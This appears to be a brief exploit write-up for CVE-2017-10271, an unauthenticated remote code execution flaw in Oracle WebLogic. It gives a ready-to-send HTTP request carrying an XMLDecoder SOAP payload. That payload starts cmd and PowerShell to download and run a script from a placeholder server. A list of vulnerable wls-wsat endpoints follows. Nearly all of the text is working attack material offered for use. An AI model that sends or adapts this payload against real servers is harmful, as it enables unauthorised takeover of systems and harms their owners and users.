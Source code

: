 CVE-2017-10271 identification and exploitation. Unauthenticated Weblogic RCE.

https://nvd.nist.gov/vuln/detail/CVE-2017-10271

https://www.oracle.com/technetwork/topics/security/cpuoct2017-3236626.html


```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: SOMEHOSTHERE
Content-Length: 1226
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*
User-Agent: python-requests/2.2.1 CPython/2.7.6 Linux/3.19.0-25-generic

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.8.0_151" class="java.beans.XMLDecoder"> 
			<void class="java.lang.ProcessBuilder"> 
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>cmd</string>
				</void>
				<void index = "1"> 
					<string>/c</string> 
				</void>
				<void index = "2">
					<string>powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString(&apos;http://SOMESERVERHERE/GOTPAYLOAD.ps1&apos;)</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext> 
	</soapenv:Header> 
<soapenv:Body/>
</soapenv:Envelope>
```


wls-wsat endpoint list
```
CoordinatorPortType
RegistrationPortTypeRPC
ParticipantPortType
RegistrationRequesterPortType
CoordinatorPortType11
RegistrationPortTypeRPC11
ParticipantPortType11
RegistrationRequesterPortType11
```


